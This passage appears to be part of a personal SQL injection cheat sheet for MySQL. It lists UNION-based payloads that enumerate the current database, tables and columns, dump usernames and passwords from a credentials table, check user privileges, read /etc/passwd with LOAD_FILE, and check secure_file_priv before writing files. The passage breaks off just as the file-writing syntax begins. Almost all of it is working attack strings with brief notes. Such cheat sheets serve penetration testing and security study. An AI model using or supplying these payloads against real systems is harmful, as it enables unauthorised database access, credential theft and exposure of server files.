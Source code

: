 </pre>
<p>Find current selected database:</p>
<pre>
SELECT database();
' UNION select 1,database(),2,3-- -
</pre>
<p>Find table_names and their respected database (table_schema):</p>
<pre>
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
note that the where can be omitted
</pre>
<p>DUMP columns out table:</p>
<pre>
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
</pre>
<p>DUMP the data:</p>
<pre>
' UNION select 1, username, password, 4 from dev.credentials-- -
</pre>

<h4>Reading Files</h4>
<p>Need FILE privilege</p>
<p>Check current user:</p>
<pre>
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
' UNION SELECT 1, user(), 3, 4-- -
' UNION SELECT 1, user, 3, 4 from mysql.user--
</pre>
<p>Check user privileges:</p>
<pre>
SELECT super_priv FROM mysql.user
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- - (can add where="current_user"  when lot's of users)
</pre>
<p>Returns Y or N</p>
<p>Check other privileges:</p>
<pre>
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- - (can add where grantee="'current_user@localhost'" when lot's of users)
</pre>
<p>Read files:</p>
<pre>
SELECT LOAD_FILE('/etc/passwd');
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
</pre>

<h4>Writing Files</h4>
<p>Need FILE privilege, secure_file_priv and write access at location backend server</p>
<p>Check secure_file_priv global variable:</p>
<pre>
SHOW VARIABLES LIKE 'secure_file_priv'; (not via union)
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - (union)
</pre>
<p>If variable is empty --> read/write to entire file system. If variable has a directory --> only read write to that directory. If variable == null --> can't read/write</p>
<p>We can write files using the following syntax:</p>
<pre>